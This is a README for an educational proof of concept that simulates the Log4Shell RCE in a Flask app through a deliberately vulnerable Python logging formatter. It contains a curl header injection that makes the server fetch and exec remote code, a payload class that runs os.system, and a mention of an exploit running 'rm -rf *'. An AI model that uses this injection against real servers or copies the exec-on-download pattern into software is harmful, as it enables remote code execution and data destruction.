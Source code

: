 
# py4jshell
Simulating Log4j Remote Code Execution (RCE) [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) vulnerability in a flask web server using python's logging library with custom formatter that simulates lookup substitution on URLs. This repository is a POC of how Log4j remote code execution vulnerability actually works, but written in python. Instead of using `JNDI+LDAP`, `HTTP` protocol is used for exploit code lookup.

**Note 1:** Do not use this in production, this is a demonstration of RCE.

**Note 2** This is not a vulnerability in Python's logging library. We are writing a custom formatter for the logging library that simulates the inherit behaviour of Log4J library.

**Note 3:** The exploit code exploit/exploit2.py executes `rm -rf *` in the server's present working directory, if you want to try this, make sure you are running it inside a container and not directly on the host, as it may result in data loss.

### How this works?
1. A GET request is made to the flask web server (`/hello`) from a HTTP client.
2. Flask framework invokes the logger to log this request, including the header.
3. Since we have patched the python's logging library to use our own formatter, the `format()` method implemented by our formatter `ShellishFormatter` is invoked.
4. The formatter performs original formatting and invokes `check_substitute_pattern` function which scans the string to be logged for `${{.+?}}` pattern.
5. If found, the URL inside this pattern is extracted, parsed and a HTTP GET request is made to the remote code hosting server pointed by the URL to download the exploit python code.
6. A runnable python object is constructed from the downloaded code dynamically using `exec` and `eval` interpreter methods. This object contains the executable exploit code.
7. Since we need to substitute the `${{.+?}}` with the stringified result, we call `str()` over the object which calls `__str__()` method of the exploit object.
8. Anything that is written inside the `__str__()` method is blindly executed unless it returns a string at the end.

### Try it yourself:
#### 1. Build the docker image:
First, built the docker image of the flask server using the provided Dockerfile.
```
docker build . -t py4jshell
```

#### 2. Host the exploit code locally:
The directory `exploit/` contains two sample python exploit codes. You can host these exploits anywhere on the internet, you can also do it locally by running a static HTTP server from that directory, as:
```
cd exploit
python -m http.server 8080
```
If everything is alright, you should see this message:
```
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

#### 3. Start the container:
You can just open another terminal or anywhere in your local network, just start the server as follows:
```
docker run --rm -p 5000:5000 py4jshell
```
The container should start the web server, you should see the following message:
```
 * Serving Flask app 'app' (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on http://172.17.0.2:5000/ (Press CTRL+C to quit)
```

#### 4. Make get requests:
You can use curl or any other tool to make the GET request. Check `exploit1.sh` and `exploit2.sh` files.
You can also formulate your own request as follows:

```sh
HEADER_VAL="\${{http://192.168.0.104:8080/exploit1.py}}"

curl -X GET -H "Agent: ${HEADER_VAL}" \
    http://localhost:5000/hello
```
Note the header value for `Agent` field, it contains a URL from where the exploit code is downloaded.
If everything works fine, the server will download and execute the exploit code without complaining. You should see the output as below:
```
172.17.0.1 - - [17/Dec/2021 12:56:25] "GET /hello HTTP/1.1" 200 -
it worked!
Headers: Host: localhost:5000
User-Agent: curl/7.74.0
Accept: */*
Agent: Substituted text


172.17.0.1 - - [17/Dec/2021 12:56:44] "GET /hello HTTP/1.1" 200 -
```
As you an see there is `it worked!` message on the `stdout`, which is actually from the exploit code which runs `os.system("echo it worked!")`, check `exploit/exploit1.py`. Also, if you see the logs of the static http server which hosted the exploit code files, you should see:
```
172.17.0.2 - - [17/Dec/2021 18:26:44] "GET /exploit1.py HTTP/1.1" 200 -
```
Which indicates that there was a hit from the container to the static server to download the exploit code to perform remote code execution.

#### Passing parameters:
The sample formatter also supports passing custom parameters as arguments to the instantiated remote object, to pass parameters, you can encode them as GET URL parameters:
```
HEADER_VAL="\${{http://192.168.0.104:8080/exploit2.py?name=Prasanna}}"
```

Then in the exploit code you can receive them in the constructor:
```python3
class LogSubstitutor:
    def __init__(self, **kwargs) -> None:
        # do creepy things here.
        os.system("echo from constructor")
        self.name = kwargs.get("name", "NoName")

    def __str__(self) -> str:
        # the loader will call str(object) during substitution
        # so this method must return a string and we can do other
        # creepy things here as well.
        # LoL! don't run this on the host machine.
        os.system("echo rm -rf .")
        return "Hi {}".format(self.name)
```

### Notes:
1. This project is for educational purposes, it can be used to understand Remote code execution and how Log4j shell actually works and what makes it so dangerous.
2. This has nothing to do with python's original logging library as it does not perform any string substitutions by downloading and executing code from remote URLs, this functionality is purely implemented inside the custom formatter which is actually vulnerable.
3. Log4j uses JNDI + LDAP which is the way of performing lookups on remote Java objects. This method has been in practice since 1990 and has been used by lot of applications to solve some usecases. The actual LDAP + JNDI might not work exactly as how we have written the functionality in this repo, this is just a simulation.
4. Every interpreted language can be tricked into attacks like this if they expose some or the other way of dynamic code execution using `eval`, which is most common in many interpreted languages. It is left to the developers to write better code and make the world safer.
